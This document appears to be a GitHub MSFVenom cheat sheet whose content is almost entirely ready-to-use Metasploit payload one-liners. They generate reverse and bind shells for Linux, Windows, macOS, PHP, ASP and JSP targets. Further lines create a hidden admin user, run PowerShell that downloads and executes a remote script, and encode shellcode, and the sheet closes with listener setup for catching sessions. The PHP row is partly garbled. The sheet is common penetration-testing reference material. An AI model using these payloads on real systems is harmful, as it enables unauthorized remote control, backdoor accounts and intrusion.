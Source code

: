 # MSFVenom-Cheatsheet

## MSFVenom Cheatsheet

***

Single Page Cheatsheet for common MSF Venom One Liners\
Available in PDF, DOCX and Markdown format!_PDF and DOCX versions contain the payload size in bytes and a few more commands._

## MSFVenom Cheatsheet

***

| MSFVenom Payload Generation One-Liner                                                                                                                                                                                     | Description                                     |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------- |
| msfvenom -l payloads                                                                                                                                                                                                      | List available payloads                         |
| msfvenom -p PAYLOAD --list-options                                                                                                                                                                                        | List payload options                            |
| msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP                                                                                                                                                         | Payload Encoding                                |
| msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                     | Linux Meterpreter reverse shell x86 multi stage |
| msfvenom -p linux/x86/meterpreter/bind\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                        | Linux Meterpreter bind shell x86 multi stage    |
| msfvenom -p linux/x64/shell\_bind\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                             | Linux bind shell x64 single stage               |
| msfvenom -p linux/x64/shell\_reverse\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                          | Linux reverse shell x64 single stage            |
| msfvenom -p windows/meterpreter/reverse\_tcp LHOST=IP LPORT=PORT -f exe > shell.exe                                                                                                                                       | Windows Meterpreter reverse shell               |
| msfvenom -p windows/meterpreter\_reverse\_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe | Windows Meterpreter http reverse shell          |
| msfvenom -p windows/meterpreter/bind\_tcp RHOST= IP LPORT=PORT -f exe > shell.exe                                                                                                                                         | Windows Meterpreter bind shell                  |
| msfvenom -p windows/shell/reverse\_tcp LHOST=IP LPORT=PORT -f exe > shell.exe                                                                                                                                             | Windows CMD Multi Stage                         |
| msfvenom -p windows/shell\_reverse\_tcp LHOST=IP LPORT=PORT -f exe > shell.exe                                                                                                                                            | Windows CMD Single Stage                        |
| msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe                                                                                                                                                | Windows add user                                |
| msfvenom -p osx/x86/shell\_reverse\_tcp LHOST=IP LPORT=PORT -f macho > shell.macho                                                                                                                                        | Mac Reverse Shell                               |
| msfvenom -p osx/x86/shell\_bind\_tcp RHOST=IP LPORT=PORT -f macho > shell.macho                                                                                                                                           | Mac Bind shell                                  |
| msfvenom -p cmd/unix/reverse\_python LHOST=IP LPORT=PORT -f raw > shell.py                                                                                                                                                | Python Shell                                    |
| msfvenom -p cmd/unix/reverse\_bash LHOST=IP LPORT=PORT -f raw > shell.sh                                                                                                                                                  | BASH Shell                                      |
| msfvenom -p cmd/unix/reverse\_perl LHOST=IP LPORT=PORT -f raw > shell.pl                                                                                                                                                  | PERL Shell                                      |
| msfvenom -p windows/meterpreter/reverse\_tcp LHOST=IP LPORT=PORT -f asp > shell.asp                                                                                                                                       | ASP Meterpreter shell                           |
| msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp                                                                                                                                          | JSP Shell                                       |
| msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=IP LPORT=PORT -f war > shell.war                                                                                                                                          | WAR Shell                                       |
| msfvenom -p php/meterpreter\_reverse\_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php                                                                                                                            | pbcopy && echo '?php '                          |
| msfvenom -p php/reverse\_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php                                                                                                                                             | Php Reverse Shell                               |
| msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')"" -f python                                                                   | Windows Exec Nishang Powershell in python       |
| msfvenom -p windows/shell\_reverse\_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata\_ga\_nai -b "\x04\xA0"                                                                                                   | Bad characters shikata\_ga\_nai                 |
| msfvenom -p windows/shell\_reverse\_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv\_mov -b "\x04\xA0"                                                                                                       | Bad characters fnstenv\_mov                     |

## Multihandler Listener

***

To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse\_tcp payload,

```
msf>use exploit/multi/handler  
msf>set payload windows/meterpreter/reverse_tcp  
msf>set lhost <IP>  
msf>set lport <PORT>  
msf> set ExitOnSession false  
msf>exploit -j  
```

The -j option is to keep all the connected session in the background.

## References

https://kb.help.rapid7.com/discuss/598ab88172371b000f5a4675\
https://thor-sec.com/cheatsheet/oscp/msfvenom\_cheat\_sheet/\
http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/
